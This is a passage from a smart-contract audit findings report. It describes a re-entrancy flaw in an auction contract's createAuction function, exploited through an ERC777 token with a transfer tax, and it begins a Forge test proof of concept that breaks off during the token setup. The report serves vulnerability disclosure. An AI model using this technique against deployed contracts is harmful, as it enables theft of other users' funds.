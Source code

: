 **[0xean (judge) commented](https://github.com/code-423n4/2022-11-size-findings/issues/97#issuecomment-1335304455):**
 > Thanks for the comments and fact based discussion which is always welcomed, going to move forward with a M here. 



***

## [[M-04] Auction created by ERC777 Tokens with tax can be stolen by re-entrancy attack](https://github.com/code-423n4/2022-11-size-findings/issues/192)
*Submitted by [ronnyx2017](https://github.com/code-423n4/2022-11-size-findings/issues/192)*

The createAuction function lacks the check of re-entrancy. An attacker can use an ERC777 token with tax as the base token to create auctions. By registering ERC777TokensSender interface implementer in the ERC1820Registry contract, the attacker can re-enter the createAuction function and create more than one auction with less token. And the sum of the totalBaseAmount of these auctions will be greater than the token amount received by the SizeSealed contract. Finally, the attacker can take more money from the contract global pool which means stealing tokens from the other auctions and treasury.

### Proof of Concept

Forge test

    // SPDX-License-Identifier: GPL-3.0
    pragma solidity 0.8.17;

    import {Test} from "forge-std/Test.sol";

    import {SizeSealedTest} from "./SizeSealed.t.sol";
    import {ERC777} from "openzeppelin-contracts/contracts/token/ERC777/ERC777.sol";
    import "openzeppelin-contracts/contracts/utils/introspection/IERC1820Registry.sol";
    import {MockSeller} from "./mocks/MockSeller.sol";
    import {MockERC20} from "./mocks/MockERC20.sol";

    contract TaxERC777 is ERC777{
        uint32 tax = 50; // 50% tax rate

        constructor(string memory name_,
            string memory symbol_,
            address[] memory defaultOperators_) ERC777(name_, symbol_, defaultOperators_){}
        
        function mint(address rec, uint256 amount) external{
            super._mint(rec, amount, "", "", false);
        }

        function _beforeTokenTransfer(
            address operator,
            address from,
            address to,
            uint256 amount
        ) internal override {
            if(to == address(0)||from==address(0)){ return;}
            // tax just burn for test
            